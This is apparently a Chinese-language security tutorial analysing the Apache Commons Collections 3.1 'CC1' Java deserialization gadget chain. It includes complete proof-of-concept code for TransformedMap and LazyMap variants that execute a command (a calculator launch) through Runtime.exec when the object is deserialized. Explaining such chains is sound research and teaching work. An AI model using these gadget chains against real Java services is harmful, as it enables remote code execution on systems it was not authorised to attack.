


# CommonsCollections 介绍
> [Apache Commons Collections](https://commons.apache.org/proper/commons-collections/index.html)是一个扩展了`Java`标准库里的`Collection`结构的第三方基础库，它提供了很多强有力的数据结构类型并实现了各种集合工具类，被广泛运用于各种`Java`应用的开发，目前常说的存在缺陷的版本是`Apache Commons Collections 3.2.1`以下（4.0版本也是可以的）

# 环境搭建
> 1. `JDK`版本：JDK1.8u66（要求JDK8u71以下）
> 2. `Commons-Collections`版本：3.1

> 利用`maven`来进行搭建，先创建一个`Maven`项目，不用选择任何`Maven`模板，`pom.xml`中内容如下，之后选择右侧的更新，让其自动导入包即可

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>

</project>
```

# 前置知识
> 在`Commons Collections`库中提供了一个抽象类`org.apache.commons.collections.map.AbstractMapDecorator`，这个类是`Map`的扩展，且是一个基础的装饰器，用来给`Map`提供附加功能，这个类有很多实现类，且每个类的触发方式也都是不一样的，在`Commons-Collections1`链中需要重点关注`TransformedMap`类和`LazyMap`类

## Transformer
> `org.apache.commons.collections.Transformer`是一个接口，提供了一个`transform()`方法，用来定义具体的转换逻辑，方法接收`Object`类型的`input`，处理后将`Object`返回，在`Commons-Collection`中，程序提供了多个`Transformer`的实现类，用来实现不同的`TransformedMap`类中`key、value`进行修改的功能


## TransformedMap
> `org.apache.commons.collections.map.TransformedMap`类可以在一个元素被加入到集合内时自动对该元素进行特定的修饰变换，在`decorate()`方法中，第一个参数为修饰的`Map`类，第二个参数和第三个参数作为一个实现`Transformer`接口的类，用来转换修饰的`Map`的键、值（为`null`时不进行转换）；因此，当被修饰的`map`添加新元素的时候便会触发这两个类的`transform`方法


## LazyMap
> `org.apache.commons.collections.map.LazyMap`与`TransformedMap`类似，区别在于当`LazyMap`调用`get()`方法时如果传入的`key`不存在，则会触发相应参数的`Transformer`的`transform()`方法
> 补充一下：与`LazyMap`具有相同功能的还有`org.apache.commons.collections.map.DefaultedMap`，同样也是`get()`方法会触发`transform()`方法


## ConstantTransformer
> `org.apache.commons.collections.functors.ConstantTransformer`是一个返回固定常量的`Transformer`，在初始化时储存了一个`Object`，后续的调用时会直接返回这个`Object`，这个类用于和`ChainedTransformer`配合，将其结果传入`InvokerTransformer`来调用我们指定的类的指定方法



## InvokerTransformer
> 这是一个实现类，在`Commons-Collections 3.0`引入，利用反射来创建一个新的对象


> demo 代码

```java
import org.apache.commons.collections.functors.InvokerTransformer;

public class InvokerTransformerDemo {
    public static void main(String[] args) {
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"});
        invokerTransformer.transform(Runtime.getRuntime());
    }
}
```


## ChainedTransformer
> `org.apache.commons.collections.functors.ChainedTransformer`类也是一个`Transformer`的实现类，但是这个类自己维护了一个`Transformer`数组，在调用`ChainedTransformer`类的`transform`方法时会循环数组，依次调用`Transformer`数组中每个`Transformer`的`transform`方法，并将结果传递给下一个`Transformer`，在这样的处理机制下，可以链式调用多个`Transformer`来分别处理对象


> demo 代码

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class ChainedTransformerDemo {

    public static void main(String[] args) throws ClassNotFoundException{
        // Transformer 数组
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        // ChainedTransformer 实例
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform("ChainedTransformerDemo");
    }
}
```


# Commons-Collections1-TransformedMap 分析
> 利用`TransformedMap`的`decorate`方法来将`ChainedTransformer`设置为`map`装饰器的处理方法，调用`TransformedMap`的`put()/setValue()`等方法时会触发`Transformer`链的调用方法
> 寻找一个重写了`readObject`的类，在反序列化时可以改变`map`的值，定位到`sun.reflect.annotation.AnnotationInvocationHandler`类，这个类实现了`InvocationHandler`接口 (原本是用于`JDK`对于注解形式的动态代理)

> `AnnotationInvocationHandler`类的构造方法有两个参数，第一个参数是`Annotation`实现类的`Class`对象，第二个参数是一个`key`为`String`、`value`为`Object`的`Map`，需要注意的是，构造方法会对`var1`进行判断，当且仅当`var1`只有一个父接口且为`Annotation.class`时，才会将两个参数初始化在成员属性`type`和`memberValues`中


> 接着看看`AnnotationInvocationHandler`类重写的`readObject`方法，首先调用`AnnotationType.getInstance(this.type)`方法来获取`type`这个注解类对应的`AnnotationType`的对象，然后获取其`memberTypes`属性，这个属性是个`Map`，存放这个注解中可以配置的值，接着循环`this.memberValues`这个`Map`来获取其`Key`，如果注解类的`memberTypes`属性中存在与`this.memberValues`的`key`相同的属性，并且取得的值不是`ExceptionProxy`的实例也不是`memberValues`中值的实例，则取得其值并调用`setValue`方法写入值



> 根据上面的分析过程，构造`Payload`的思路基本就没啥问题了

```
[1] 构造 AnnotationInvocationHandler 实例，传入一个注解类和一个 Map，这个 Map 的 key 中要具有注解类中存在的属性并且值不是对应的实例和 ExceptionProxy 对象
[2] 这个 Map 用 TransformedMap 进行封装，并且调用自定义的 ChainedTransformer 进行装饰
[3] ChainedTransformer 中写入多个 Transformer 实现类来进行链式调用从而达到恶意操作
```

## POC
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsTransformedMap {

    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(invocationHandler);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```


# Commons-Collections1-LazyMap 分析
> 核心点在`LazyMap#get`，`LazyMap`在没有`key`时会尝试调用`this.factory.transform`方法，而`this.factory`可以指定为`Transformer`对象，而且`transform`方法参数会被忽略掉，因此只需要寻找一个调用了`LazyMap.get`的方法


> 这里`AnnotationInvocationHandler`类的`invoke()`方法可以触发`this.memberValues`来调用`get`方法，从而触发`LazyMap#get`


```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsLazyMap {

    public static void main(String[] ars) throws ClassNotFoundException ,InstantiationException, IllegalAccessException, InvocationTargetException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map LazyMap = org.apache.commons.collections.map.LazyMap.decorate(new HashMap(), chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, LazyMap);
        Map mapProxy = (Map) Proxy.newProxyInstance(org.apache.commons.collections.map.LazyMap.class.getClassLoader(), org.apache.commons.collections.map.LazyMap.class.getInterfaces(), invocationHandler);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, mapProxy);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(handler);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```


# 调用链

```java
AnnotationInvocationHandler.readObject()
   *Map(Proxy).entrySet()
        *AnnotationInvocationHandler.invoke()
            LazyMap.get()/TransformedMap.setValue()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                        InvokerTransformer.transform()
```

# 总结
> 利用`AnnotationInvocationHandler`在反序列化时会触发`Map`的`get/set`等操作，配合`TransformedMap/LazyMap`在执行`Map`对象的操作时会根据不同情况调用`Transformer`的转换方法，最后结合了`ChainedTransformer`的链式调用、`InvokerTransformer`的反射执行完成了恶意调用链的构成，其中`LazyMap`的触发还用到了动态代理机制